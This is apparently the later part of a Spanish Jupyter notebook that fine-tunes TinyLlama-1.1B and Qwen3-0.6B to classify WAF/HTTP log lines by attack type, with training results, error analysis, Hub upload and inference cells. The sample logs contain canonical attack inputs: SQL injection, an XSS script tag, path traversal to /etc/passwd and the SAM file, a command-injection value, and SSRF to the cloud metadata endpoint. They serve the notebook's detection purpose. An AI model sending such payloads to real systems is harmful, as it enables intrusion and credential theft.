The tokenizer has new PAD/BOS/EOS tokens that differ from the model config and generation config. The model config and generation config were aligned accordingly, being updated with the tokenizer's values. Updated tokens: {'bos_token_id': None}.
==((====))==  Unsloth - 2x faster free finetuning | Num GPUs used = 1
   \\   /|    Num examples = 1,471 | Num Epochs = 1 | Total steps = 60
O^O/ \_/ \    Batch size per device = 4 | Gradient accumulation steps = 2
\        /    Data Parallel GPUs = 1 | Total batch size (4 x 2 x 1) = 8
 "-____-"     Trainable parameters = 10,092,544 of 606,142,464 (1.67% trained)


Step,Training Loss
10,0.104900
20,0.043800
30,0.009100
40,0.007600
50,0.003000
60,0.003800


Entrenamiento: 58.9s (0.98 min)

Accuracy binaria (es_ataque):  100.0%
Accuracy de tipo de ataque:    95.4%
Fallos de parseo de JSON:      0 / 259
Adaptador LoRA guardado en: adaptador_qwen3-0.6b/



## Comparacion final

Tabla y grafico de barras con accuracy binaria vs. accuracy de tipo por
modelo.

Modelo           Acc. binaria   Acc. tipo  Fallos JSON  Tiempo train
tinyllama-1.1b         100.0%       71.0%            0        73.5s
qwen3-0.6b             100.0%       95.4%            0        58.9s




In [14]:
import matplotlib.pyplot as plt

print(f"{'Modelo':<15} {'Acc. binaria':>13} {'Acc. tipo':>11} {'Fallos JSON':>12} {'Tiempo train':>13}")
for r in resultados:
    print(f"{r['key']:<15} {r['accuracy_binaria']*100:>12.1f}% {r['accuracy_tipo']*100:>10.1f}% "
          f"{r['fallos_parseo']:>12} {r['train_runtime_s']:>11.1f}s")

etiquetas = [r["key"] for r in resultados]
acc_bin = [r["accuracy_binaria"] * 100 for r in resultados]
acc_tipo = [r["accuracy_tipo"] * 100 for r in resultados]

x = range(len(etiquetas))
ancho = 0.35
fig, ax = plt.subplots(figsize=(7, 4.5))
ax.bar([i - ancho/2 for i in x], acc_bin, ancho, label="Accuracy binaria (es_ataque)")
ax.bar([i + ancho/2 for i in x], acc_tipo, ancho, label="Accuracy de tipo de ataque")
ax.set_xticks(list(x))
ax.set_xticklabels(etiquetas)
ax.set_ylabel("Accuracy (%)")
ax.set_ylim(0, 100)
ax.set_title("TinyLlama-1.1B vs Qwen3-0.6B fine-tuned, tras el fine-tuning")
ax.legend()
plt.tight_layout()
plt.show()


## Interpretacion vs. el benchmark de prompting

Si la accuracy post-fine-tuning supera consistentemente al enfoque de
few-shot prompting (`waf_clasificador_tinyllama_qwen.ipynb`), conviene
mantener los adaptadores en produccion. Si queda parecida o peor, es mejor
seguir con prompting + JSON Schema (mas barato de mantener, no requiere
reentrenar cuando aparecen nuevos tipos de ataque) y reservar el
fine-tuning solo para categorias donde el prompting es inconsistente.

## Errores de clasificacion

Antes de dar por bueno un modelo, conviene ver *cuales* logs clasifica
mal - no solo el numero de accuracy. Patrones frecuentes: confundir
`sql_injection` con `xss` cuando el payload va en un parametro ambiguo,
o `ssrf` con `normal` cuando la URL objetivo parece legitima.

In [15]:
# Primeros 8 errores de clasificacion de cada modelo, con el output crudo
# para diagnosticar (parseo fallado vs. tipo mal clasificado).
for r in resultados:
    print("=" * 70)
    print(r["key"])
    print("=" * 70)
    errores = [d for d in r["detalle_eval"] if d[1] != d[2]]
    print(f"{len(errores)} errores de {r['n_evaluados']} evaluados\n")
    for log, esperado, predicho, texto_crudo in errores[:8]:
        print(f"log:       {log}")
        print(f"esperado:  {esperado}")
        print(f"predicho:  {predicho}")
        print(f"salida cruda del modelo: {texto_crudo!r}")
        print()


tinyllama-1.1b
75 errores de 259 evaluados

log:       222.127.150.1 - - [15/Aug/2026:02:09:38 -0300] "POST /api/pedidos?callback=file:///etc/passwd HTTP/1.1" 403 14919 "-" "curl/8.4.0"
esperado:  ssrf
predicho:  command_injection
salida cruda del modelo: '{"es_ataque": true, "tipo": "command_injection", "confianza": "alta"}'

log:       127.196.12.216 - - [07/Apr/2026:12:56:55 -0300] "GET /upload?file=; cat /etc/passwd HTTP/1.1" 403 336 "-" "sqlmap/1.7#stable"
esperado:  command_injection
predicho:  sql_injection
salida cruda del modelo: '{"es_ataque": true, "tipo": "sql_injection", "confianza": "alta"}'

log:       81.189.219.19 - - [14/Apr/2026:13:09:42 -0300] "POST /api/productos?comment=..\..\..\windows\system32\config\sam HTTP/1.1" 403 8500 "-" "Mozilla/5.0 (X11; Linux x86_64) Gecko/20100101 Firefox/128.0"
esperado:  path_traversal
predicho:  ssrf
salida cruda del modelo: '{"es_ataque": true, "tipo": "ssrf", "confianza": "media"}'

log:       82.186.52.70 - - [28/Apr/2026:15:46:2

<a name="Save"></a>
## Guardar y exportar

Los adaptadores LoRA se guardaron en disco durante el entrenamiento
(`adaptador_tinyllama-1.1b/` y `adaptador_qwen3-0.6b/`). Las celdas
siguientes:

1. **Subida al Hub** - publica cada adaptador en
   `alcozzi/waf-classifier-<key>`. Solo corre si `HF_TOKEN` esta seteado.
2. **Merge a 16 bits** - opcional, solo hace falta para servir el modelo
   con vLLM/transformers puros sin Unsloth+PEFT.

In [16]:
# Subida de los adaptadores LoRA al Hub de HuggingFace.
# Usa `upload_folder` sobre la carpeta ya guardada, sin recargar el modelo
# en memoria. Los repos se crean privados por defecto (cambiar PRIVADO=False
# para publicarlos).
import os

HF_USER = "alcozzi"
PRIVADO = True

if "HF_TOKEN" not in os.environ:
    try:
        from google.colab import userdata
        token_colab = userdata.get("HF_TOKEN")
        if token_colab:
            os.environ["HF_TOKEN"] = token_colab
    except Exception:
        pass

HF_TOKEN = os.environ.get("HF_TOKEN")

if not HF_TOKEN:
    print("HF_TOKEN no esta seteado. Nada que subir.")
    print("Para subir: setearlo en Colab Secrets (recomendado) o ejecutar antes")
    print('  os.environ["HF_TOKEN"] = "hf_..."')
else:
    from huggingface_hub import HfApi, create_repo

    api = HfApi(token=HF_TOKEN)
    for r in resultados:
        repo_id = f"{HF_USER}/waf-classifier-{r['key']}"
        create_repo(repo_id, token=HF_TOKEN, exist_ok=True, private=PRIVADO)
        api.upload_folder(
            folder_path=r["adaptador"],
            repo_id=repo_id,
            commit_message=(
                f"LoRA adapter - WAF log classifier fine-tuned sobre "
                f"{r['model_id']} (acc binaria {r['accuracy_binaria']*100:.1f}%, "
                f"acc tipo {r['accuracy_tipo']*100:.1f}%)"
            ),
            token=HF_TOKEN,
        )
        print(f"Subido: https://huggingface.co/{repo_id}")


Processing Files (0 / 0)      : |          |  0.00B /  0.00B            

New Data Upload               : |          |  0.00B /  0.00B            

  ...adapter_model.safetensors:   0%|          | 34.5kB / 50.5MB            

  ...lama-1.1b/tokenizer.model: 100%|##########|  500kB /  500kB            

Subido: https://huggingface.co/alcozzi/waf-classifier-tinyllama-1.1b


Processing Files (0 / 0)      : |          |  0.00B /  0.00B            

New Data Upload               : |          |  0.00B /  0.00B            

  ...qwen3-0.6b/tokenizer.json: 100%|##########| 11.4MB / 11.4MB            

  ...adapter_model.safetensors:  10%|9         | 3.94MB / 40.4MB            

Subido: https://huggingface.co/alcozzi/waf-classifier-qwen3-0.6b


In [17]:
# Merge del adaptador con los pesos base a 16 bits (para servir con
# vLLM/transformers sin Unsloth). Desactivado por defecto: pesa mucho mas
# que solo el adaptador.
if False:
    from unsloth import FastLanguageModel
    for r in resultados:
        modelo, tok = FastLanguageModel.from_pretrained(
            model_name=r["adaptador"], max_seq_length=LARGO_MAXIMO, load_in_4bit=True,
        )
        modelo.save_pretrained_merged(f"{r['key']}_merged_16bit", tok, save_method="merged_16bit")


<a name="Inference"></a>
## Inferencia sobre logs nuevos

`entrenar_y_evaluar` libera cada modelo de la GPU apenas termina; para
probar logs nuevos se vuelve a cargar cada adaptador desde
`adaptador_<key>/` (es rapido, los modelos base son chicos).

In [18]:
# Set de 5 logs para inspeccion cualitativa (normal + 4 tipos de ataque).
LOGS_DE_PRUEBA = [
    '203.0.113.7 - - [15/Aug/2026:10:22:31 -0300] "GET /api/productos?id=17 HTTP/1.1" 200 512 "-" "Mozilla/5.0"',
    '198.51.100.4 - - [15/Aug/2026:10:23:02 -0300] "GET /buscar?q=%27%20OR%20%271%27%3D%271 HTTP/1.1" 403 210 "-" "sqlmap/1.7#stable"',
    '198.51.100.9 - - [15/Aug/2026:10:24:11 -0300] "GET /comentarios?comment=<script>alert(1)</script> HTTP/1.1" 403 198 "-" "Mozilla/5.0"',
    '198.51.100.3 - - [15/Aug/2026:10:25:44 -0300] "GET /upload?file=../../../../etc/passwd HTTP/1.1" 403 180 "-" "curl/8.4.0"',
    '198.51.100.1 - - [15/Aug/2026:10:26:19 -0300] "GET /api/pedidos?callback=http://169.254.169.254/latest/meta-data/ HTTP/1.1" 403 220 "-" "python-requests/2.31.0"',
]

def clasificar_log(model, tokenizer, log, chat_kwargs):
    """Inferencia greedy sobre un log; devuelve (json_parseado, texto_crudo)."""
    FastLanguageModel.for_inference(model)
    mensajes = [
        {"role": "system", "content": SYSTEM_PROMPT},
        {"role": "user", "content": log},
    ]
    inputs = tokenizer.apply_chat_template(
        mensajes, add_generation_prompt=True, return_tensors="pt",
        return_dict=True, **chat_kwargs,
    ).to(model.device)
    with torch.no_grad():
        salida = model.generate(**inputs, max_new_tokens=80, do_sample=False)
    texto = tokenizer.decode(salida[0][inputs["input_ids"].shape[1]:], skip_special_tokens=True)
    return extraer_json(texto), texto


In [19]:
# Muestra la salida individual de cada modelo sobre los 5 logs de prueba.
# Cada modelo se carga una vez y se libera antes de pasar al siguiente.
for r in resultados:
    print("=" * 70)
    print(r["key"])
    print("=" * 70)

    modelo_r, tok_r = FastLanguageModel.from_pretrained(
        model_name=r["adaptador"],
        max_seq_length=LARGO_MAXIMO,
        load_in_4bit=True,
    )

    for log in LOGS_DE_PRUEBA:
        pred, crudo = clasificar_log(modelo_r, tok_r, log, r["chat_kwargs"])
        print(log)
        print(" ->", pred if pred is not None else f"[no parseo] {crudo!r}")
        print()

    del modelo_r, tok_r
    gc.collect()
    torch.cuda.empty_cache()


tinyllama-1.1b
==((====))==  Unsloth 2025.9.1: Fast Llama patching. Transformers: 4.56.0.
   \\   /|    Tesla T4. Num GPUs = 1. Max memory: 14.563 GB. Platform: Linux.
O^O/ \_/ \    Torch: 2.11.0+cu128. CUDA: 7.5. CUDA Toolkit: 12.8. Triton: 3.6.0
\        /    Bfloat16 = FALSE. FA [Xformers = 0.0.35. FA2 = False]
 "-____-"     Free license: http://github.com/unslothai/unsloth
Unsloth: Fast downloading is enabled - ignore downloading bars which are red colored!
203.0.113.7 - - [15/Aug/2026:10:22:31 -0300] "GET /api/productos?id=17 HTTP/1.1" 200 512 "-" "Mozilla/5.0"
 -> {'es_ataque': False, 'tipo': 'normal', 'confianza': 'alta'}

198.51.100.4 - - [15/Aug/2026:10:23:02 -0300] "GET /buscar?q=%27%20OR%20%271%27%3D%271 HTTP/1.1" 403 210 "-" "sqlmap/1.7#stable"
 -> {'es_ataque': True, 'tipo': 'sql_injection', 'confianza': 'alta'}

198.51.100.9 - - [15/Aug/2026:10:24:11 -0300] "GET /comentarios?comment=<script>alert(1)</script> HTTP/1.1" 403 198 "-" "Mozilla/5.0"
 -> {'es_ataque': True, 'tip

In [20]:
# Tabla lado a lado sobre los 5 logs de prueba: predicciones de cada modelo
# junto a la etiqueta esperada, para identificar disenso.
LOGS_ESPERADOS = [
    "normal",
    "sql_injection",
    "xss",
    "path_traversal",
    "ssrf",
]
assert len(LOGS_ESPERADOS) == len(LOGS_DE_PRUEBA), \
    "LOGS_ESPERADOS y LOGS_DE_PRUEBA tienen que tener el mismo largo"

predicciones = {r["key"]: [] for r in resultados}
for r in resultados:
    modelo_r, tok_r = FastLanguageModel.from_pretrained(
        model_name=r["adaptador"],
        max_seq_length=LARGO_MAXIMO,
        load_in_4bit=True,
    )
    for log in LOGS_DE_PRUEBA:
        pred, _ = clasificar_log(modelo_r, tok_r, log, r["chat_kwargs"])
        predicciones[r["key"]].append((pred or {}).get("tipo", "?"))
    del modelo_r, tok_r
    gc.collect()
    torch.cuda.empty_cache()

# --- Renderizado de la tabla ---
claves = [r["key"] for r in resultados]
anchos = {k: max(len(k), *(len(p) for p in predicciones[k])) for k in claves}
ancho_esp = max(len("esperado"), *(len(e) for e in LOGS_ESPERADOS))

encabezado = (f"{'#':>2}  {'esperado':<{ancho_esp}}  "
              + "  ".join(f"{k:<{anchos[k]}}" for k in claves)
              + "  resultado")
print(encabezado)
print("-" * len(encabezado))
for i, esperado in enumerate(LOGS_ESPERADOS):
    preds_fila = [predicciones[k][i] for k in claves]
    if all(p == esperado for p in preds_fila):
        marca = "OK"
    else:
        fallaron = [k for k, p in zip(claves, preds_fila) if p != esperado]
        marca = "fallo: " + ", ".join(fallaron)
    fila = (f"{i+1:>2}  {esperado:<{ancho_esp}}  "
            + "  ".join(f"{p:<{anchos[k]}}" for p, k in zip(preds_fila, claves))
            + f"  {marca}")
    print(fila)

# --- Resumen: aciertos por modelo ---
print()
for k in claves:
    correctas = sum(1 for esp, pred in zip(LOGS_ESPERADOS, predicciones[k]) if pred == esp)
    print(f"{k:<15}  {correctas}/{len(LOGS_ESPERADOS)} correctas en los logs de prueba")


==((====))==  Unsloth 2025.9.1: Fast Llama patching. Transformers: 4.56.0.
   \\   /|    Tesla T4. Num GPUs = 1. Max memory: 14.563 GB. Platform: Linux.
O^O/ \_/ \    Torch: 2.11.0+cu128. CUDA: 7.5. CUDA Toolkit: 12.8. Triton: 3.6.0
\        /    Bfloat16 = FALSE. FA [Xformers = 0.0.35. FA2 = False]
 "-____-"     Free license: http://github.com/unslothai/unsloth
Unsloth: Fast downloading is enabled - ignore downloading bars which are red colored!
==((====))==  Unsloth 2025.9.1: Fast Qwen3 patching. Transformers: 4.56.0.
   \\   /|    Tesla T4. Num GPUs = 1. Max memory: 14.563 GB. Platform: Linux.
O^O/ \_/ \    Torch: 2.11.0+cu128. CUDA: 7.5. CUDA Toolkit: 12.8. Triton: 3.6.0
\        /    Bfloat16 = FALSE. FA [Xformers = 0.0.35. FA2 = False]
 "-____-"     Free license: http://github.com/unslothai/unsloth
Unsloth: Fast downloading is enabled - ignore downloading bars which are red colored!
 #  esperado        tinyllama-1.1b     qwen3-0.6b      resultado
---------------------------------

## Cargar un adaptador guardado en una sesion nueva

Si se retoma el cuaderno despues de reiniciar el entorno (o en otra
maquina) y solo se quiere probar un modelo ya entrenado, no hace falta
volver a correr el entrenamiento: alcanza con el adaptador guardado en
`adaptador_<key>/`.

In [21]:
# Cambiar `if False` a `if True` para reusar un adaptador guardado.
if False:
    from unsloth import FastLanguageModel

    CARPETA_ADAPTADOR = "adaptador_qwen3-0.6b"  # o "adaptador_tinyllama-1.1b"
    CHAT_KWARGS = {"enable_thinking": False}      # {} para tinyllama

    modelo_cargado, tok_cargado = FastLanguageModel.from_pretrained(
        model_name=CARPETA_ADAPTADOR,
        max_seq_length=LARGO_MAXIMO,
        load_in_4bit=True,
    )

    for log in LOGS_DE_PRUEBA:
        pred, crudo = clasificar_log(modelo_cargado, tok_cargado, log, CHAT_KWARGS)
        print(log)
        print(" ->", pred if pred is not None else f"[no parseo] {crudo!r}")
        print()


## Conclusion

Se fine-tunearon **TinyLlama-1.1B** y **Qwen3-0.6B** para clasificar
lineas de log HTTP/WAF por tipo de ataque. Puntos clave:

1. **El cuello de botella se desplazo.** Con modelos densos y chicos, la
   VRAM ya no es el limite; lo que manda es la calidad y variedad del
   dataset.
2. **El dataset sintetico es un piso.** Cubre los payloads canonicos de
   OWASP; en produccion conviene mezclar con logs reales (propios o
   CSIC 2010) para cubrir variantes de ofuscacion/encoding.
3. **Salida estructurada aprendida vs. impuesta.** El enfoque previo con
   Ollama forzaba JSON via `format=`. Aca el modelo aprende a emitirlo -
   si `fallos_parseo` sigue alto, conviene combinar fine-tuning con
   decodificacion restringida por schema.
4. **Enmascarar el prompt (`-100`) importa.** No es para elegir un canal
   de razonamiento, sino para que el modelo no gaste capacidad
   aprendiendo a repetir el system prompt y la linea de log.

**Proximos pasos:** curar un set de validacion separado del de test,
evaluar por pasos (`eval_strategy="steps"`) para elegir el mejor
checkpoint por `eval_loss`, e integrar el adaptador ganador al pipeline
existente de clasificacion WAF.

### Referencias
- Documentacion de Unsloth: https://docs.unsloth.ai/basics/gpt-oss-how-to-run-and-fine-tune/
- Catalogo de modelos: https://unsloth.ai/docs/get-started/unsloth-model-catalog